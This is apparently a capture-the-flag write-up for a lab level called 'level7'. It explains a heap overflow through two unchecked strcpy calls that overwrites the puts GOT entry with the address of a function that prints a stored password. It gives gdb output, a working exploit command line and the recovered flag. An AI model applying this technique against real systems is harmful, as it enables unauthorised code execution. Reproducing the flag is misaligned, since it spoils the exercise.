

# level7

## Header

```bash
ssh level7@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that the program opens 
`/home/user/level8/.pass` and reads it to the global buffer `c` of size 80. <br>
The main problem is `puts` call doesn't print buffer `c`, but `~~` string literal instead.

Our savior is `m` function that calls `printf` that prints time and `c` buffer.

So, we need to replace `puts` address in `GOT` table with `m` address.

To do that, let's pay attention to 2 facts:
- There are 4 consecutive `malloc(8)` calls
- There are 2 `strcpy` unprotected calls 

1st and 3rd `malloc` calls are just arrays of two integers, `arr1` and `arr2`.
The result of 2nd and 4th calls are stored in `arr1[1]` and `arr2[1]`, respectively.

This scheme represents the memory after `malloc` called. <br>


`strcpy` will copy from the address stored in arr[1] (first red block on the scheme)

Our goal is to make the 2nd `strcpy` to be called with address of puts in GOT as the 1st parameter and the address of `m` function as the 2nd parameter.

```
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.

(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

Results:
```
0x8049928 - puts@got.plt
0x80484f4 - m function
```

Let's exploit!
```bash
# (20 bytes padding + addr of `puts@got.plt` + addr of `m`):
./level7 $'XXXXXXXXXXXXXXXXXXXX\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1668220618
```

## References
